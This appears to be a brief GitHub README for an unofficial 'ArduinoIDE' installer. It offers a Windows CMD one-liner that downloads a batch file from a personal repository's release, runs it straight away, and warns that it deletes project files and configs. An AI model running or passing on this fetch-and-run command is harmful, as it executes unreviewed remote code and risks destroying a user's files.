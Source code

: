 # ArduinoIDE

# Paste to CMD
```
del "%temp%\arduino_ide_installer.bat" >nul 2>&1 &curl -L -o "%temp%\arduino_ide_installer.bat" https://github.com/ny4rlk0/ArduinoIDE/releases/download/ArduinoIDE/arduino_ide_installer.bat &&start /b "" cmd /c %temp%\arduino_ide_installer.bat &&exit
```
</h1>Warning it will delete all project files and configs in default folders.</h1>
